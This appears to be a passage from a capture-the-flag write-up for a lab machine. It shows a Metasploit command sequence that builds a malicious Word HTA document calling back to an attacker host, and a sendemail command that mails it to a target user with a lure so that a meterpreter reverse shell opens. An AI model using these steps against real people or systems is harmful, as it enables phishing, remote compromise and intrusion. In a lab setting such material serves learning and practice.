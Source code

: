 # Getting the reverse shell with Metasploit

There is a way to get a meterpreter shell from _Nico_ by generating the HTA file with a Metasploit module.

```markdown
msfconsole

use exploit/windows/fileformat/office_word_hta
set SRVHOST 10.10.14.23
run
```

This creates the file _/root/.msf4/local/msf.doc_ that we can send to the email address of Nico and after he checks it, we get a meterpreter shell back.

```markdown
sendemail -f test@megabank.com -t nico@megabank.com -u RTF -m "Please look at this file" -a /root/.msf4/local/msf.doc -s 10.10.10.77
```
